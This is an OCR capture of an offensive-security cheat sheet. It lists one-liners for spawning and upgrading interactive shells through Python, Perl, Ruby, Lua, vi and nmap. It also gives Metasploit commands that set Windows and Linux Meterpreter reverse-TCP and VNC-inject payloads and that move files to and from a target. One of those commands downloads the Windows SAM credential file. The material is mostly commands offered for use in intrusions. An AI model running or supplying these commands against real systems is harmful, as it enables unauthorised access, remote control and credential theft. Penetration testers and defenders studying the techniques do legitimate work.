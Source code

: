 Python TTY Shell Trick
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
Spawn Interactive sh shell
/bin/sh -i
Spawn Perl TTY Shell
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
Spawn Ruby TTY Shell
exec "/bin/sh"
Spawn Lua TTY Shell
os.execute('/bin/sh')
Spawn TTY Shell from Vi
Run shell commands from vi:

:!bash
Spawn TTY Shell NMAP
!sh
Metasploit Cheat Sheet
A basic metasploit cheat sheet that I have found handy for reference.

Basic Metasploit commands, useful for reference, for pivoting see - Meterpreter Pivoting techniques.

Meterpreter Payloads
Windows reverse meterpreter payload
COMMAND	DESCRIPTION
set payload windows/meterpreter/reverse_tcp

Windows reverse tcp payload

Windows VNC Meterpreter payload
COMMAND	DESCRIPTION
set payload windows/vncinject/reverse_tcp

set ViewOnly false

Meterpreter Windows VNC Payload

Linux Reverse Meterpreter payload
COMMAND	DESCRIPTION
set payload linux/meterpreter/reverse_tcp

Meterpreter Linux Reverse Payload

Meterpreter Cheat Sheet
Useful meterpreter commands.

COMMAND	DESCRIPTION
upload file c:\\windows

Meterpreter upload file to Windows target

download c:\\windows\\repair\\sam /tmp

Meterpreter download file from Windows target

download c:\\windows\\repair\\sam /tmp
